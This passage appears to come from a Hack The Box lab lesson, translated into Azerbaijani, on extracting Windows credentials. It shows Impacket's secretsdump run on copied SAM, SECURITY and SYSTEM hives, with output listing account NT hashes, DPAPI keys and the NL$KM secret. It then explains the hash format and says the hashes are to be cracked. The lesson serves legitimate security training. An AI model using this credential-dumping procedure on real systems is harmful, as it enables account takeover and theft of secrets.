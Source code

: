 ```bash
nijatmansimov@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Hədəf sistemin bootKey-i: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Yerli SAM heşləri çıxarılır (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Keşlənmiş domen loqin məlumatları çıxarılır (domain/username:hash)
[*] LSA Sirləri çıxarılır
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM  0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Təmizlənir... 
```

Burada görürük ki, `secretsdump` yerli **SAM heşlərini**, həmçinin keşlənmiş domen loqin məlumatlarını və DPAPI üçün maşın və istifadəçi açarları kimi **LSA sirlərini** ehtiva edən `hklm\security` məlumatlarını uğurla çıxarıb.

Qeyd edək ki, `secretsdump`-ın ilk addımı yerli SAM heşlərini çıxarmağa başlamazdan əvvəl **sistem yükləmə açarını (system bootkey)** əldə etməkdir. Bu, vacibdir, çünki *bootkey* SAM verilənlər bazasını şifrələmək və deşifrə etmək üçün istifadə olunur. Onsuz heşlər deşifrə edilə bilməz — buna görə də əvvəlcə qeyd edildiyi kimi, müvafiq registriyyat hivlərinin kopyalarına sahib olmaq kritikdir.

Bundan əlavə, aşağıdakı sətrə diqqət yetirin:

```
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

Bu bizə çıxışı necə şərh etməli olduğumuzu və hansı heşləri sındırmağa cəhd edə biləcəyimizi göstərir. Ən müasir Windows əməliyyat sistemləri şifrələri **NT heşləri** kimi saxlayır. Daha köhnə sistemlər (məsələn, Windows Vista və Windows Server 2008-dən əvvəlki sistemlər) daha zəif və sındırılması daha asan olan **LM heşləri** kimi saxlaya bilər. Buna görə də, hədəf daha köhnə bir Windows versiyası işlədirsə, LM heşləri faydalıdır.

Bunu nəzərə alaraq, hər bir istifadəçi hesabı ilə əlaqəli NT heşlərini bir mətn faylına kopyalaya və şifrələri sındırmağa başlaya bilərik. Nəticələri izləmək üçün hansı heşin hansı istifadəçiyə uyğun gəldiyini qeyd etmək faydalıdır.
